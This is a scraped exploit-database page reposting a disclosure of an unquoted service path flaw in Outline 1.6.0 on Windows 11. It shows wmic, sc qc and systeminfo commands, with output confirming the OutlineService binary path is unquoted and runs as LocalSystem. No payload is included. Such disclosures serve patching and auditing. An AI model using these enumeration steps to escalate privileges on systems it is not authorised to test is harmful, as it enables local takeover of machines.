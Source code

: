 ```yaml
---
title: Outline 1.6.0 Unquoted Service Path exploit
url: https://sploitus.com/exploit?id=PACKETSTORM:171577&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-03-31
fetch_date: 2025-10-04T11:11:45.705731
---
```


# Outline 1.6.0 Unquoted Service Path exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for Outline 1.6.0 Unquoted Service Path

2023-03-30 | CVSS 6.8

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=PACKETSTORM:171577
# Exploit Title: Outline V1.6.0 - Unquoted Service Path
# Exploit Author: Milad Karimi (Ex3ptionaL)
# Discovery Date: 2022-11-10
# Vendor Homepage: https://getoutline.org/
# Software Link: https://getoutline.org/
# Tested Version: V1.6.0
# Vulnerability Type: Unquoted Service Path
# Tested on OS: Microsoft Windows 11 Enterprise
# Step to discover Unquoted Service Path:

C:\>wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """

Outline Updater OutlineServiceSvc C:\Program Files (x86)\Outline\OutlineService.exe
Auto

C:\>sc qc OutlineService
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: OutlineService
TYPE : 10 WIN32_OWN_PROCESS
START_TYPE : 2 AUTO_START
ERROR_CONTROL : 1 NORMAL
BINARY_PATH_NAME : C:\Program Files (x86)\Outline\OutlineService.exe

LOAD_ORDER_GROUP :
TAG : 0
DISPLAY_NAME : OutlineService
DEPENDENCIES :
SERVICE_START_NAME : LocalSystem

C:\>systeminfo

OS Name: Microsoft Windows 11 Enterprise
OS Version: 10.0.22000 N/A Build 22000
OS Manufacturer: Microsoft Corporation
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)